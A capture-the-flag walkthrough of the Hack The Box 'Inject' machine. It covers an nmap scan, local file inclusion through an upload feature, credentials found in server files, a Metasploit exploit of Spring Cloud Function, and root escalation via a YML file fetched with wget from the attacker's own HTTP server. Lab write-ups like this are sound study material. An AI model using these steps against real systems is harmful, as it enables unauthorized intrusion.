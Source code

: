 <img src="https://imgur.com/qbGYyhh.png"
     style="float: left; margin-right: 10px;" />

## INTRODUCTION
This is a step-by-step walkthrough of the Hack The Box Easy Machine: Inject, I will be showcasing the steps I used to successfully it.<br/>
<br />

## ENVIRONMENTS USED
- Kali linux<br/>
- Burp suite<br/>
- Metasploit<br/>
- Wappalyzer<br/>

## WORKSPACE SETUP
Lets first create the directory we will be working in and cd into it.
```
mkdir inject && cd inject
```
<img src="https://imgur.com/pJaYMhJ.png"
     style="float: left; margin-right: 10px;" />

## RECONNAISSANCE
We start of with a complete port scan of the machine using nmap. During the scan, we discover two open ports: 
- Port 22 and Port 8080. 
- Port 22, commonly associated with SSH (Secure Shell), presents a potential avenue for remote access to the target machine. We take note of this for further investigation.<br/>

Furthermore, we focus our attention on Port 8080, as it often hosts web applications or services. By enumerating this port, we aim to uncover any vulnerabilities or <br/>
misconfigurations that may grant us unauthorized access.

We use nmap for this scan. 
```
sudo nmap -sVC -p- -T4 -Pn --open -O {target} -oN tcpfullscan
```
<img src="https://imgur.com/ukTWtoH.png"
     style="float: left; margin-right: 10px;" />

## WEBSERVER ANALYSIS
Our next step involves visiting the webserver and conducting a thorough exploration to identify its components and functionality.
<br/>
Using Wappalyzer, we discover that the webserver is running on the Bootstrap framework. This insight provides valuable information about the underlying technologies.<br/>
<br/>
During our investigation, we encounter several pages on the website. The login page, unfortunately, presents an error, preventing us from accessing its contents. Similarly, the register page is still under construction, limiting our options for interaction.<br/>
<br/>
We discover an interesting feature on the webpage the upload function.  we test its robustness by attempting to upload an HTB Inject PNG image. Our objective is to determine if any restrictions or security measures are in place to prevent unauthorized file uploads.<br/>

By systematically probing the upload functionality, we seek to exploit any weaknesses or misconfigurations that may facilitate our progression and grant us further access to the webserver's underlying systems.

  
## LOCAL FILE INCLUSION
<br/>
Having successfully uploaded and viewed the image, we observe that the uploaded file's parameter is reflected in the URL. This behavior suggests a potential vulnerability known as Local File Inclusion (LFI). Exploiting this vulnerability could allow us to access files on the webserver that are not intended for public viewing.<br/>
<br/>
next step is to use Burp Suite to capture and analyze the requests we send to the webserver.<br>

<br/>
<img src="https://imgur.com/WqErkDX.png"
     style="float: left; margin-right:10px;" />
  
## BURP SUITE EXPLOITATION
- We will start burp suite, upload the file and activate the interceptor. <br/>
- This allows us to gain control over the requests and responses exchanged between our browser and the webserver.<br/>
- Once the file upload is captured by Burp Suite, we can manipulate the GET requests to determine the location where the image was uploaded. This enables us to pinpoint potential vulnerabilities or areas of interest within the webserver's file system.<br/>
- we conduct further analysis of the files on the webserver. During this process, we uncover that the web application is built on the Spring Cloud Framework Boot. This insight equips us with valuable knowledge about the underlying technology stack, enabling us to tailor our exploitation techniques more effectively.

<br/>
<img src="https://imgur.com/x1Lkt9I.png"
     style="float: left; margin-right:10px;" />
<br/>

- We continue navigating through the directories, where we discover a directory named 'Frank' that contains a password and username attributed to 'phil.'
- can navigate through the directories <br/>
- We managed to find a password and username belonging to pbil in the Frank directory. <br/> 
- This could be useful as we move along with our enumeration. <br/>

<img src="https://imgur.com/xBK3fHi.png"
     style="float: left; margin-right:10px" />     
<br/>

## EXPLOITING THE SPRING CLOUD FRAMEWORK WITH METASPLOIT
-After conducting in-depth research on the framework, we discover a known as the 'spring cloud function.' This vulnerability presents us with an opportunity to exploit the system further. For more details on this vulnerability, you can refer to the Rapid7 blog post at link. <br/>
```
https://www.rapid7.com/blog/post/2022/04/01/metasploit-weekly-wrap-up-155/
```
To exploit this vulnerability, we use Metasploit to exploit the identified vulnerability in the Spring Cloud Framework <br/>

Taking advantage of Metasploit, we launch the exploit specifically designed to target the identified vulnerability in the Spring Cloud Framework. By executing this exploit, we gain remote access to the server, providing us with a solid foothold to proceed with further exploration and privilege escalation.<br/>

With this access, we continue our investigation by searching for the user flag. <br/>

<br/>

<img src="https://imgur.com/3UpHmN0.png" style="float: left; margin-right:10px;" />

## USER FLAG
- Navigating through the directories, we locate a file named "user.txt"; however, our current privileges prevent us from directly accessing its contents.
- To overcome this limitation, we revert to the credentials we discovered during our earlier Burp Suite enumeration.
- Switching to the "phil" user using the acquired password, we now have sufficient privileges to read the user flag.

<img src="https://imgur.com/uoielW3.png" style="float: left; margin-right:10px;" />

## ROOT FLAG
To gain root access on the server, we need to elevate our privileges.

- Returning to the root folder, the top-level directory of the server's file system, we navigate to the designated location for uploading files: **/opt/automation/tasks**.
- Here, we create a YML file and upload it to the server. This uploaded script will play a crucial role in increasing our privileges.
<br/>
<img src="https://imgur.com/rZUFtC4.png"  style="float: left; margin-right:10px;" />
<br/>

To upload the file using the shell we created using metasploit.
- we first set up a server on our local machine by running the following command:
```
python -m http.server 80
```

Returning to the shell session on the compromised server, we execute the following command to download the YML script from our local machine:

```
wget http://{own ip}/filename.yml
```

Once the file is successfully uploaded, we validate our escalated privileges. We execute the commands bash -p followed by whoami to verify if we have attained root privileges.

Upon confirmation of our elevated privileges, we navigate to the root directory and proceed to read the contents of the root

<img src="https://imgur.com/OAXJPMc.png"
        style="float: left; margin-right:10px;" />

## CONCLUSION

Thank you for taking the time to read my walkthrough. I value your expertise and welcome any hints or advice you may have regarding my approach or any missed opportunities. 

Your input is highly appreciated as it allows me to continuously learn and enhance my skills. Feel free to share your insights and recommendations, as they will contribute to my growth as a cybersecurity professional.
